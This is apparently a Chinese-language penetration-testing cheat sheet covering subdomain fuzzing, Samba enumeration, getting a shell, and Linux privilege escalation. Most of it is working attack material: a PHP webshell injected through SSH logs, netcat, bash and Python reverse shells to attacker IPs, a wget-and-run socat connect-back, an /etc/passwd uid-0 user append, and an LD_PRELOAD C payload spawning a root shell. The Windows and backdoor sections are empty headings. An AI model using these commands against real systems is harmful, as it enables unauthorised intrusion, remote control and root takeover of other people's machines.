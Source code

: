 ### 收集信息

#### 域名，子域名

##### wfuzz子域名穷举

wfuzz教程

https://www.ddosi.org/wfuzz-guide/

```


在这里，-c 对输出响应代码进行颜色编码
-Z 指定要在扫描模式下输入的 URL，并忽略任何连接错误
-w 指定在子域暴力破解时使用的密码字典列表。

wfuzz -c -Z -w subdomains.txt http://FUZZ.vulnweb.com
```





#### 其他

###### samba

```
enum4linux用于枚举Windows和Samba主机中的数据。
```











### GET-shell



#### ssh日志get-shell

```
直接尝试登陆
ssh '<?php @eval($_REQUEST['cmd']);?>'@ip

这里输错几次密码 同时，这段一句话木马也会留在/var/log/auth.log里，如果没有被转译的话

然后用蚁剑连接
```



#### 反弹shell

这里写的是攻击机ip

###### netcat反弹

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.36.101.179 443 >/tmp/f");?>

```

###### bash反弹

```
bash -i >& /dev/tcp/192.168.1.106/8888 0>1&
bash -i >& /dev/tcp/192.168.1.106/8888 0>1& | bash
```

###### python反弹

```
目标机执行

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### 升级shell

###### python升级tty shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
python -c '__import__("pty").spawn("/bin/bash")' 
```

###### script升级

```
script /dev/null
```

###### socket

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444


socat file:`tty`,raw,echo=0 tcp-listen:9999
```



### 提权

#### linux

基本上先看`sudo -l`

看看有哪些权限



###### awk提权

```
sudo awk 'BEGIN {system("/bin/bash")}'
```



###### capabilities提权

```
CAP_DAC_READ_SEARCH 忽略文件读及目录搜索的 DAC 访问限制

使用getcap查看权限，如：tar拥有权限，可以打包后，再解压文件，实现越权读取
```

###### /etc/passwd提权

构造一个用户 uid设置为0 因为root的uid为0

```
#利用openssl生成加密的密码, 语法：openssl passwd-1-salt[salt value]password
openssl passwd -1 -salt user3 pass123
 
#mkpasswd类似于openssl passwd，它将生成指定密码字符串的哈希值。
mkpasswd -m SHA-512 pass
 
#利用python中的crypt库生成
python -c 'import crypt; print crypt.crypt("pass", "$6$salt")'
 
#利用Perl和crypt来使用salt值为我们的密码生成哈希值
perl -le 'print crypt("test","addedsalt")'
这里把test转换为密码
 
#php语言
php -r "print(crypt('aarti','123') . " ");"


echo的第一个是自己设置的用户名 冒号后面的是生成的哈希密码
echo "test:adMpHktIn0tR2:0:0:root:/root:/bin/bash" >>/etc/passwd

```

###### LD_PRELOAD提权

sudo -l查看下用户权限  发现有find命令

编写shell.c

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}
```

编译下

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

-fPIC -shared 简单理解就是动态编辑共享库，可以进行公共调用，

-nostartfiles 代表该库运行不会去调用系统的其它库，避免影响自己的程序执行。

记得加777权限 不过也可以在目标机编译

```
ls -al shell.so
sudo LD_PRELOAD=path/shell.so find
```



#### windows

### 后门
